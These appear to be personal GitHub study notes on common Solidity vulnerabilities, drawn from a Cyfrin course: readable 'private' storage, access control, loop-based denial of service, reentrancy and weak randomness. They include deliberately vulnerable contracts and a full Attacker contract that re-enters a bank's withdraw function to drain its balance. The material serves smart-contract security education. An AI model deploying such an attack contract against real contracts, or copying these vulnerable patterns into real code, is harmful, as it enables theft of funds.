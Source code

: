 A great collection of Common Issues can be fonud in https://github.com/Cyfrin/sc-exploits-minimized. They are amazing!

## 1.PRIVATE IS NOT ACTUALLY PRIVATE!
If you have a Solidity variable that is for instance a passowrd stored as string private s_Privatepassword, it is not actually private.

If we use foundry command ``bash cast storage <contract address> <variable number>`` we get in hex and then we can use ``cast parse-bytes32-string <0xblabla>`` to read it.

## 2. ACCESS CONTROL
Is there a hirearchy in the contract? Can everyone access everything? or should only be certain contracts or owner?


## 3. LOOPS! CAn allow for DoS
In the following example from UpdraftCyfrin course. For every new player, the gas cost willbe higher because you have to loop more times. if the attackar calls the function gasilion times, at the end only gasilioners will be able to enter raffle.

```javascript
function enterRaffle(address[] memory newPlayers) public payable {
    //Audit I: It is not possible to enter yourself multiple times, as the function will revert if there are any duplicates
    //Audit I: No error is being emitted if the entranceFee is not sent
    require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
    for (uint256 i = 0; i < newPlayers.length; i++) {
        players.push(newPlayers[i]);
    }

    // Check for duplicates
    //Audit I: This is very gas inefficient
    for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
    emit RaffleEnter(newPlayers);
}
```
## 4. Reentrancy attacks. specially for functions that send money and LATER update state. Attacker can use this vulnerability via an attack contract with a recieve() function that calls again the sending money function.

```javascript
contract VulnerableBank {
    mapping(address => uint256) public balances;

    // Function to deposit Ether into the bank
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    // Vulnerable function to withdraw Ether
    function withdraw(uint256 _amount) public {
        require(balances[msg.sender] >= _amount, "Insufficient balance");

        // Send Ether to the caller
        (bool success, ) = msg.sender.call{value: _amount}("");
        require(success, "Transfer failed");

        // Update the balance after sending Ether
        balances[msg.sender] -= _amount;
    }

    // Check the contract's balance
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

```
As it can be seen in withdraw the balance is updated after the call function which allows for an attacker with a contracte like the one below to call it several times before balance is set to0.

```javascript
contract Attacker {
    VulnerableBank public vulnerableBank;
    address public owner;

    constructor(address _vulnerableBankAddress) {
        vulnerableBank = VulnerableBank(_vulnerableBankAddress);
        owner = msg.sender;
    }

    // Function to attack the bank by calling the vulnerable withdraw function
    function attack() public payable {
        require(msg.value >= 1 ether, "Minimum 1 ether required to attack");

        // Deposit some Ether to initiate the exploit
        vulnerableBank.deposit{value: msg.value}();

        // Start the recursive withdrawal
        vulnerableBank.withdraw(msg.value);
    }

    // Fallback function gets triggered when Ether is received
    receive() external payable {
        // Re-enter the vulnerable withdraw function if the balance in the bank is still available
        if (address(vulnerableBank).balance > 0) {
            vulnerableBank.withdraw(msg.value);
        }
    }

    // Allows the attacker to withdraw all stolen funds
    function withdrawFunds() public {
        require(msg.sender == owner, "Not the owner");
        payable(owner).transfer(address(this).balance);
    }
}
```
## 5. WEAK RANDOMNESS

What happens is that tis next way of getting random number is very exploitable:
``` javascript
     */
    function getRandomNumber() external view returns (uint256) {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(msg.sender, block.prevrandao, block.timestamp)));
        return randomNumber;
    }
```
(this next pieace of info is taken directly from updraftcyfrin.io course:
### block.timestamp

Relying on block.timestamp is risky for a few reasons as node validators/miners have privileges that may give them unfair advantages.

The validator selected for a transaction has the power to:

* Hold or delay the transaction until a more favorable time
* Reject the transaction because the timestamp isn't favorable

Timestamp manipulation has become less of an issue on Ethereum, since the merge, but it isn't perfect. Other chains, such as Arbitrum can be vulnerable to several seconds of slippage putting randomness based on `block.timestamp` at risk.

### block.prevrandao

`block.prevrandao` was introduced to replace `block.difficulty` when the merge happened. This is a system to choose random validators.

The security issues using this value for randomness are well enough known that many of them are outlined in the **[EIP-4399](https://eips.ethereum.org/EIPS/eip-4399)** documentation already.

The security considerations outlined here include:

**Biasability:** The beacon chain RANDAO implementation gives every block proposer 1 bit of influence power per slot. Proposer may deliberately refuse to propose a block on the opportunity cost of proposer and transaction fees to prevent beacon chain randomness (a RANDAO mix) from being updated in a particular slot.

**Predictability:** Obviously, historical randomness provided by any decentralized oracle is 100% predictable. On the contrary, the randomness that is revealed in the future is predictable up to a limited extent.

### msg.sender

Any field controlled by a caller can be manipulated. If randomness is generated from this field, it gives the caller control over the outcome.

By using msg.sender we allow the caller the ability to mine for addresses until a favorable one is found, breaking the randomness of the system.
